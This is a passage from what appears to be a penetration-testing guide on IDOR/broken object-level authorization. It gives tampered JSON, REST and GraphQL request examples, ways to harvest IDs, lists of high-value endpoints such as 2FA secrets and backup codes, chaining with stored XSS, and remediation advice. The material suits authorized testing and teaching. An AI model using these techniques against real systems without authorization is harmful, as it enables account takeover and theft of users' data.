- **Nested Object Injection**: Add authorization fields in nested objects
  ```json
  {
    "profile": {
      "name": "John",
      "owner_id": "attacker_id",
      "target_id": "victim_id"
    }
  }
  ```

### Reference Leakage Exploitation

- **Harvesting IDs from HTML/JS Sources**:
  - Extract IDs from page source, JavaScript files
  - Analyze AJAX requests for leaked IDs

- **API Response Analysis**:
  - Check list responses for IDs of other users' resources
  - Look for IDs in error messages or debugging information
  - Check for endpoints that might translate identifiers (e.g., email to GUID).
  - Harvest IDs via analytics beacons, logs endpoints, GraphQL error suggestions, or search/autocomplete APIs.

### Common IDOR Vulnerability Patterns



#### API Endpoint Vulnerabilities

- **RESTful API IDORs**: Direct manipulation of resource identifiers in REST APIs

  ```
  GET /api/users/123/profile → GET /api/users/456/profile
  ```

- **GraphQL IDORs**: Changing object identifiers in GraphQL queries

  ```graphql
  query {
    user(id: "attacker_id") {
      changePassword(newPassword: "pwned")
    }
  }
  ```

- **JSON/XML Parameter IDORs**: Modifying nested parameters
  ```json
  {"user": {"id": 123, "action": "view"}} → {"user": {"id": 456, "action": "view"}}
  ```

#### Function-Specific Vulnerabilities

- **Account Management IDORs**:
  - Accessing another user's profile, settings, or personal information
  - Modifying another user's account details

- **Financial IDORs**:
  - Accessing another user's payment methods or financial records
  - Modifying order details, prices, or payment information

- **Content Management IDORs**:
  - Accessing private documents, media, or posts
  - Modifying content ownership or permissions

- **Administrative Function IDORs**:
  - Accessing administrative interfaces or functions
  - Executing privileged actions through API endpoints

- **OAuth/OIDC IDORs**:
  - Manipulating `state` or `code` parameters in OAuth flows
  - Accessing token endpoints with other users' authorization codes
  - PKCE code_verifier bypass via IDOR

- **2FA/MFA IDORs**:
  - Accessing backup code generation endpoints for other users
  - Retrieving TOTP secrets via `/api/users/{user_id}/totp-secret`
  - Disabling 2FA for other accounts

- **Notification/Webhook IDORs**:
  - Modifying notification preferences: `/api/notifications/settings/{user_id}`
  - Accessing webhook configuration endpoints for other tenants
  - Reading notification history of other users

- **Real-time Feature IDORs**:
  - Socket.io/WebSocket room IDs as direct object references
  - Live chat room access via predictable room identifiers
  - Real-time dashboard data streams with user/org IDs

### gRPC / Protobuf

- Microservices increasingly use gRPC; IDs live in binary messages. Test with grpcurl and fuzzers; validate authorization on every method.
- If server reflection is enabled, fetch `.proto` definitions; disable reflection in production when possible.

### Cloud-Native Object URLs

- Presigned URLs (S3/GCS/Azure) are direct object references; require short expiries, method scoping, optional IP constraints, and backend re‑validation on GET.
- Attempt to tweak the `Key=`/object path, query params, or credentials (e.g., `X-Amz-Security-Token`) to replay others’ files; test cross‑tenant reuse.

### Observability / OpenTelemetry Leaks

- Trace systems like Zipkin or Jaeger often expose span attributes containing user IDs.
- Query endpoints such as `/api/v2/traces` or `/v1/traces`, harvest IDs, and replay them against protected APIs.

## Authorization-as-Code Pitfalls (OPA, Cedar)

- Organizations delegate authorization to policy engines (OPA, Cedar). Fuzz policy inputs directly (e.g., `POST /v1/data/authz/allow`).
- Verify explicit owner/tenant checks in Rego/Cedar; add unit tests for BOLA cases; deny‑by‑default at the first hop.

## Modern Detection & CI/CD Tooling

- Use Burp (Repeater/Intruder/Turbo Intruder) and auth‑diff extensions (e.g., Autorize/AuthMatrix) for parallel testing across roles.
- Use gRPC tooling (grpcurl, gRPC Inspector) and disable reflection in production where possible.
- CI tools that generate BOLA/IDOR cases (e.g., Pynt, StackHawk, RESTler) and block merges on failures.

### Testing Methodologies

#### Comprehensive IDOR Testing Process

1. **Reconnaissance Phase**:
   - Map all endpoints and functionality
   - Identify authentication mechanisms
   - Document all object references and formats

2. **Identification Phase**:
   - Set up multiple accounts at different privilege levels
   - Capture all interactions with the application
   - Catalog all potential IDOR test points

3. **Testing Phase**:
   - Perform parameter tampering across all identified points
   - Test for both read and write IDOR
   - Try multiple bypass techniques for each endpoint
   - Test indirect references (e.g., file uploads, exports)

4. **Exploitation Phase**:
   - Develop reliable proof-of-concept exploits
   - Assess the impact of discovered vulnerabilities
   - Determine the scope and severity

5. **Reporting Phase**:
   - Document clear reproduction steps
   - Demonstrate actual/potential business impact
   - Provide remediation recommendations

### Specific Test Scenarios

#### Account Management Testing

1. Log in as User A and access profile settings
2. Capture requests for viewing/editing profile
3. Log in as User B
4. Replay User A's requests with User B's session
5. Modify identifiers to access/edit User A's profile

#### Document Access Testing

1. Upload documents with User A
2. Capture document access/download requests
3. Log in as User B
4. Modify document identifiers to access User A's documents
5. Test both direct access and list/search interfaces

#### API Testing

1. Map all API endpoints and their parameters
2. Identify endpoints that accept object identifiers
3. Test horizontal access (between equal privilege users)
4. Test vertical access (between different privilege levels)
5. Test indirect references (nested objects, relationships)
6. Check corresponding mobile API endpoints for differences or leaks.
7. Look for parallel administrative endpoints (e.g., `/api/users/myinfo` vs `/api/admins/myinfo`).

### High-Impact IDOR Targets

When hunting for IDORs, prioritize these high-impact endpoints:

1. **User Profile Settings**:
   - /settings/profile
   - /user/profile
   - /user/settings
   - /account/settings
   - /username
   - /profile

2. **Payment and Financial Endpoints**:
   - Test create/update/delete operations on objects that might seem read-only (e.g., changing prices via PUT requests).
   - Any endpoint handling payment information
   - Order processing systems
   - Financial record access points

3. **Administrative Functions**:
   - User management interfaces
   - System configuration endpoints
   - Access control settings

4. **Authentication & MFA Endpoints**:
   - /api/users/{id}/backup-codes
   - /api/users/{id}/totp
   - /api/users/{id}/disable-2fa
   - /oauth/authorize (state parameter)
   - /api/users/{id}/sessions

5. **Notification & Communication**:
   - /api/notifications/{id}
   - /api/webhooks/{id}/config
   - /api/users/{id}/email-preferences
   - /api/alerts/{id}/settings

6. **Real-Time & Collaboration**:
   - /socket.io/?room={id}
   - /api/rooms/{id}/join
   - /api/live-sessions/{id}
   - /api/collaborative-docs/{id}

## Chaining and Escalation

IDOR vulnerabilities can often be chained with other issues or used to escalate privileges:

- **IDOR + Information Disclosure**: If an IDOR requires an unpredictable identifier (like a UUID), find another vulnerability (e.g., an API endpoint listing users) that leaks these identifiers. Use the leaked IDs to exploit the IDOR.
- **IDOR + Stored XSS**: If an IDOR allows modification of data viewable by other users (e.g., changing a profile name, posting a comment), inject an XSS payload. This escalates the IDOR to Stored XSS affecting other users.
- **IDOR for Feature Abuse**: Use IDOR to abuse application features, such as adding items to another user's cart, triggering actions on their behalf, or exhausting resources tied to their account.

## Remediation Recommendations

- **Implement Proper Authorization**: Validate access rights for every resource request
- **Use Indirect References**: Replace direct references with temporary per-session tokens
- **Server-Side Validation**: Validate that the requested object belongs to the current user
- **Contextual Access Controls**: Consider context beyond just resource ownership
- **Authorization Frameworks**: Use dedicated authorization frameworks like ABAC, RBAC
- **Least Privilege Principle**: Restrict access to the minimum necessary
- **Rate Limiting**: Implement rate limiting to prevent brute-force IDOR discovery
- **Activity Logging**: Log all access attempts for sensitive resources
- **Session Binding**: Explicitly bind resources to authenticated sessions
- **Input Validation**: Validate all input parameters for type, format, and range
- **Deny-by-Default**: Authorize on object owner and tenant at the very first layer; fail closed.
- **Unit/Contract Tests**: Add authorization unit tests per endpoint/field and CI scanners that auto-generate BOLA cases.
- **Cache Partitioning**: Partition CDN caches by auth headers; avoid cacheable 200/304 for private resources.